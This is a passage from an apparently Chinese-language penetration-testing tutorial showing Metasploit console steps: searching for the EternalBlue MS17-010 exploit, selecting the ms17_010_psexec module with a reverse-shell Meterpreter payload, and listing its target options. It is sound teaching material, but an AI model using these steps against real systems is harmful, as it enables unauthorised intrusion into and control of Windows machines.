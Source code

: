 ```Plaintext
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010         
```

我们找到了一个针对该服务的漏洞利用。我们可以通过复制其完整名称并使用`USE`来使用它：

```Plaintext
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

在运行漏洞利用之前，我们需要配置其选项。要查看可配置的选项，我们可以使用`show options`命令：

```Plaintext
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```
